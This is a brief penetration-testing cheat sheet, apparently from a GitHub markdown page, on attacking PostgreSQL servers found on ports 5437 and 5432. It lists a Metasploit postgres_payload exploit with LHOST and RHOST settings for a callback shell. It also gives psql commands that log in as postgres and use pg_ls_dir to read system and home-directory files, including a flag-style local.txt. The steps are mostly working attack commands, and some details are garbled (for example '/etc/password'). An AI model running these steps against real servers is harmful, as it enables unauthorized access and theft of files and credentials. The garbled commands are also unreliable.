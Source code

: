 # PostgreSQL

## PORT 5437 & PORT 5432 PostgreSQL

If you find this port, follow the commands below, and you can easily find credentials from another port as well

5437/tcp open postgresql PostgreSQL DB 11.3 - 11.7

    msf6 exploit(linux/postgres/postgres_payload) > options and set all values rhost lhost port LHOST tun0

    psql -U postgres -p 5437 -h IP | select pg_ls_dir(‘./’); | select pg_ls_dir(‘/etc/password’); | select pg_ls_dir(‘/home/wilson’); | select pg_ls_dir(‘/home/Wilson/local.txt’);
